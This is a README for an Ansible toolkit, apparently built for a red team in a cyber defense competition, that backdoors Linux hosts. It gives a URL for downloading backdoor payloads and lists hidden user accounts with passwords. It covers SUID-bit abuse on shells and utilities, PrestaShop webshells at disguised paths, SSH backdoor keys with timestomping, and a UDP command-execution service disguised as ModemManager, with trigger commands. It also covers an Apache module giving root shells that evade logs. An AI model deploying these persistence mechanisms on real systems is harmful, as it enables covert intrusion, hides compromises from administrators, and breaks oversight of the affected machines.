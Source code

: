 # How to run Ansible
The plays are defined in ansible/playbooks. Then they are referenced in configure.yml, if you want to add new plays put them in the playbook dir and then add it to the configure.yml file

To run:
ansible-playbook -i inventory.yml confgiure.yml

Some backdoors require clients or private keys.
Download those from http://xync.org/en/payloads.tgz
  Ansible scripts require this file to be unpacked in /opt directory
  If you're not executing ansible, they keys and clients can be used from anywhere

### It will create users:
zonifer:unique_password_zonifer
svc:unique_password_svc
score:unique_password_score
whiteTeam:unique_password_whiteTeam
dnsdog:unique_password_dnsdog
ccdc:unique_password_ccdc
donttouch:unique_password_donttouch

### Add SUID bit to the following binaries
/usr/bin/awk
/usr/bin/cat
/usr/bin/curl
/usr/bin/base64
/bin/bash
/usr/bin/cp
/usr/bin/curl
/usr/bin/dig
/usr/bin/find
/usr/bin/file

### Drop webshells on .11 
/var/www/html/prestashop/carts.php?carts.php=id
/var/www/html/prestashop/config/confi.php?_=id
/var/www/html/prestashop/classes/Backups.php?backup=id
/var/www/html/prestashop/classes/tax/taxes3.php?tax=id

### SSH Modifications
Configures ssh to allow password authentication (starts enabled)
Configures ssh to allow logins by root
Adds a universal authorized key called ivbackdoor (allows authentication as any user)
Adds an authorized key to root (rootkey)
Adds an authorized key to sysadmin (or grporter (same key) on Fed21)
Updates modified times on all files to blend in

### Install watershell as a systemd service named ModemManager (runs any command in the payload of a UDP packet to 1337)
echo "run:touch /tmp/win" | socat - udp-datagram:172.25.40.255:1337
OR from a bash shell (not zsh,csh,*sh)
echo "run:touch /tmp/win" > /dev/udp/172.25.40.20/1337

### Install the mod_rootme Apache mod (root shell from a web request, doesn't hit access_logs)
/opt/payloads/common/apache-client [IP]

# Windows
This folder is full of windows bits

# Persistence
This is a general linux based persistence

# funStuff is for troll scripts & 
